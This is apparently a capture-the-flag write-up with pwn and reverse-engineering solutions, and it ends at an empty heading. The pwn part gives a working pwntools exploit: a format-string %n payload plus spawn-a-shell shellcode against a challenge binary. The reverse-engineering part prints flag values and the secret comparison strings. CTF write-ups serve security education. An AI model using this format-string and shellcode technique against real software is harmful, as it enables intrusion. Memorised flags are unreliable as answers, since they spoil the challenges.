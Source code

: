 ### 过关斩将

The first level: input "east" and win.

The second level: use the format string in `printf(&format, &format)`, we can reveal the address.

The last challenge gives us the control to input some codes, gives a shellcode.

```python
from pwn import *

shell=asm(shellcraft.amd64.linux.sh(),arch="amd64")
r=process("./app")
payload="%9x,%9x,%9x,%9x,%9x,%35x%n"
r.recvuntil("secret[0] is ")
addr=str(int(r.recvuntil("\n")[:-1],16))
r.sendlineafter("What should your character's name be:","ailx10")
r.sendlineafter("So, where you will go?east or up?:","east")
r.sendlineafter("go into there(1), or leave(0)?:","1")
r.sendlineafter("'Give me an address'",addr)
r.sendlineafter("And, you wish is:",payload)
r.sendlineafter("Wizard: I will help you! USE YOU SPELL",shell)

r.interactive()
```

## Re

All the challenges are modified from various provinces' CTF competitions: 西普杯京津冀信息安全挑战赛, 第五届山东省网络安全竞赛, 网鼎杯朱雀组.

### 真的是签到

Check the ELF, IDA would gives several integers in `main` function. Be aware of the data types are meaningless in assembly, those `integers` are in fact `strings`.

Mark the data as string, and we get the flag.

```
flag{4092849uio2jfklsj4k}
```

### 绝对在第五层

The program is written in MFC.

Use dynamic analysis, on the address `0x401743` we can find a comparison. The compared string is the key to show the flag.

```
008225C8 s1 = "123456"
00822668 s2 = "xxxxxXXXXXxxxx"
```

### 种树
